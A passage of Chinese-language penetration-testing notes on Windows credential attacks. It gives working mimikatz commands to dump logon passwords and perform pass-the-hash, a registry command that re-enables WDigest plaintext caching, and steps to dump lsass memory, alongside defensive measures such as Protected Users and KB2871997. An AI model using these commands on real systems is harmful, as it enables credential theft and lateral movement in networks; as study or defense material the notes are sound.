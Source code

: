 **(获取NTLM Hash)使用mimikatz在线读取sam文件:**
```
在mimikatz目录下用 cmd/powershell 输入:
.\mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
```

**密码防抓取:Wdigest功能:**
wdigest功能被关闭后,无法从内存中获取明文密码.所以我们要开启wdigest
windows Server 2012 及以上版本默认关闭wdigest,
windows Server 2012以下版本,如果安装了KB2871997，攻击者同样无法获取明文密码.

使用reg add命令启动wdigest,以保证攻击者能利用:
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
**利用任务管理器或者微软出品的Procdump导出lsass.dmp文件，通过mimikatz来从内存文件中获取hash。:**
任务管理器=>进程=>右键选"创建转存文件"



## 7.破解hash,防范方法:
Hashcat只支持CPU破解；oclHashcat支持GPU破解（AMD、NIVDA），支持破解Windows密码、Linux密码、Office密码、Wi-Fi密码、MySQL密码、SQL Server密码，以及由MD5、SHA1、SHA256等国际主流加密算法加密的密码。

**如何防范hashdump？**

1、Windows Server 2012 R2新增了一个名为受保护的用户组（Protected Users），只要将需要保护的用户放入该组，攻击者就无法使用mimikatz等工具抓取明文密码和散列值了。

2、安装KB2871997，是微软用来解决PsExec或IPC远程查看（c$）问题的补丁，能是本地账号不再被允许远程接入计算机系统，**但是SID=500的本地管理员账号（默认Administrator）除外**。

3、微软在Windows XP中添加了一个名为WDigest的协议，该协议能够使Windows将明文密码存储在内存中，以方便用户登录本地计算机。

4、根据Debug权限确定哪些用户可以将调试器附加到任何进程或内核中，默认情况下只有Administrator。mimikatz在抓取散列值或明文密码时需要使用Debug权限（因为mimikatz需要和lsass进程进行交互）。将Administrator从Debug组中移除。

## 8.哈希传递攻击:PTH(需要本地管理员权限)

PTH（Pass the Hash 哈希传递）。在域环境中，用户登录计算机时使用的大都是域账号，**大量计算机在安装时会使用相同的本地管理员账号和密码**，因此，攻击者就能使用哈希传递攻击的方法登录内网中的其他计算机。

在Windows网络中，散列值就是用来证明身份的（有正确的用户名和密码散列值，就能通过验证）。从Windows Server 2012 R2开始，默认在内存中不会记录明文密码，因此，**攻击者往往会使用工具将散列值传递到其他计算机中，进行权限验证，实现对远程计算机的控制。**

进行身份验证时，不会使用明文口令，而是将明文口令通过系统API转换成散列值，再与数据库中存储的散列值进行对比，如果完全相同则表示验证成功。不过，攻击者在获得密码散列值之后，依旧可以使用pth攻击来模拟用户进行验证。

**使用NTLM Hash进行哈希传递:**
```
mimikatz目录下,输入:($NTLMHash,tonydog.lab为变量)
.\mimikatz.exe privilege::debug 
sekurlsa::pth /user:administrator /domain:tonydog.lab /ntlm:$NTLMHash

执行完后，在所弹出的cmd中输入下列指令来确认是否连接成功:
dir \\10.10.10.10\c$
```
